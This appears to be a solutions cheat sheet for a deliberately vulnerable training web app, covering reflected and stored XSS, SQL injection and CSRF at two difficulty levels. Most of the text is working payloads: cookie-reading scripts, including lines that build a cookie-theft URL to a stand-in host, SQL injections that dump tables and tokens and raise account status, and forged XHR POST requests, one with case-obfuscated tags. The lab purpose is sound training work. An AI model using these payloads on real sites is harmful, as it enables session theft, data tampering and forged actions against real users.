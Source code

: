 # Solutions for the WebSec Challenges *(short version)*
---

This is a short cheat sheet for the challenge solutions.

## *NORMAL* Difficulty

### Reflective XSS:

*overview.php*

- Enter code in product search bar

```html
<script>alert(document.cookie);</script>
```

- Copy the displayed cookie from the alert box (with or without cookie name)

- Enter cookie in the new popup

- (optional) Trigger the popup manually by using the link (Do you want to enter the Challenge Cookie?) beneath the search field

### Stored XSS:

*product.php*


- Enter code in product comment field

```html
<script>alert("evil.domain/cookie.php?c=" + document.cookie);</script>
```

- Accept to steal the session of 'Elliot' by clicking OK

- Add 1 Banana Slicer to Elliot's shopping cart

### SQLi:

*friends.php*

- Find the necessary table name by reading the instructions and output the whole table to find the important field names

```SQL
'; SELECT * FROM users;--
```

- Enter The SQL code below in the user search bar to upgrade to premium status

```SQL
'; UPDATE users SET user_status = 'premium' WHERE username = '<username>';--
```

### CSRF:

*contact.php*

Here you have a total of three options:

1. Use the inspector to manipulate the product comment field to send a post request with the corresponding input field names to contact.php

2. Manipulate the product comment field with the JavaScript below and then post a comment with the message you want to send

```html
<script>
var frm = document.getElementById('CSRForm');
frm.action = "contact.php";
document.getElementById('challengeUsername').value="elliot";
document.getElementById('challengePost').name="userPost";
</script>
```

3. Send a post request via XHR with the code below from any input field on the site that is vulnerable to XSS attacks (product search and comments)

```html
<script>
const xhr = new XMLHttpRequest();
xhr.open("POST", "contact.php");
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.send("uname=elliot&userPost=pwned");
</script>
```

## *HARD* Difficulty

### Reflective XSS:

*overview.php*

- Enter code in product search bar

```html
<img src="" onerror=javascript:alert(document.cookie)>
```

- Copy the displayed cookie from the alert box (with or without cookie name)

- Enter cookie in the new popup

- (optional) Trigger the popup manually by using the link (Do you want to enter the Challenge Cookie?) beneath the search field


### Stored XSS:

*product.php*


- Enter code in product comment field

```html
<!-- NO space between the string and document.cookie -->
<img src="" onerror=javascript:confirm("evil.domain/cookie.php?c="+document.cookie)>
```

- Accept to steal the session of 'Elliot' by clicking OK

- Add 1 Banana Slicer to Elliot's shopping cart


### SQLi:

*friends.php*

- disable the `maxlength` attribute for the search field with the inspector

- Find the necessary table names by running the code below

```SQL
';SELECT * FROM sqlite_master;--
```

- Enter the SQL code in the user search bar below to update to premium status

```SQL
'; UPDATE premium_users SET status='premium' WHERE username='<username>';--
```

### CSRF:

- Get Elliot's CSRF token from the 'friends' database

```SQL
'; SELECT * FROM users;--
```

Now, you have only 2 options left (since the product comment field is now better secured against XSS attacks):

1. Use the inspector to manipulate the product comment field to send a post request with the corresponding input field names to contact.php (including the token)

2. Send a post request via XHR with the code below from any input field on the site that is vulnerable to XSS attacks (product search and comments)

```html
<ScRiPt>
const xhr = new XMLHttpRequest();
xhr.open("POST", "contact.php");
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.send("uname=elliot&userPost=pwned&utoken=<token>");
</ScRiPt>
```